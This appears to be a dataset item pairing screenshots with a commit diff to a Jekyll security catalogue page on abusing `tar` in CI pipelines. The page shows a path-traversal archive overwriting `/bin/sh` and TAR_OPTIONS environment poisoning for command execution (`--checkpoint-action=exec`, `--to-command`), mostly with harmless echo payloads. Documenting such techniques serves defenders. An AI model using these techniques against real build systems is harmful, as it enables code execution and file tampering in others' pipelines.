

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/tar.md, in a window 1280 px wide, cut to the strip 0-1045 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 991 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Fix tar env var (#61)
Fix checkpoint

````diff
--- a/_tool/tar.md
+++ b/_tool/tar.md
@@ -20,16 +20,18 @@
 tar cPf zipslip.tar ../../../../../../bin/sh
 ```
 
-To poison:
+Vulnerable scenario:
 ```sh
 tar xPf zipslip.tar
 ```
 
 ## Environnement variable
 
-`tar` prepend **TAR_OPTIONS** env variable to every call. See [Using tar Options](https://www.gnu.org/software/tar/manual/html_section/using-tar-options.html). If the environment variable of a CI can be poison, **TAR_OPTIONS** can lead to RCE via:
+`tar` prepend **TAR_OPTIONS** env variable to every call. Quotes in the **TAR_OPTIONS** cause a buffer overflow. A workaround is to escape spaces with backslash. See [Using tar Options](https://www.gnu.org/software/tar/manual/html_section/using-tar-options.html). If the environment variable of a CI can be poison, **TAR_OPTIONS** can lead to RCE via:
 ```sh
-export TAR_OPTIONS='--checkpoint=1 --checkpoint-action=exec=sh'
-export TAR_OPTIONS='--to-command sh'
-tar xf test.tar
+export TAR_OPTIONS="--checkpoint=1 --checkpoint-action=exec=echo\ hello\ world"
+tar cf test.tar empty.txt # Any tar command
+
+export TAR_OPTIONS='--to-command=echo\ test' # Only works with extraction
+tar xf test.tar # Every file will be sent to the command
 ```
````
Also changed, not shown: 1 other file.
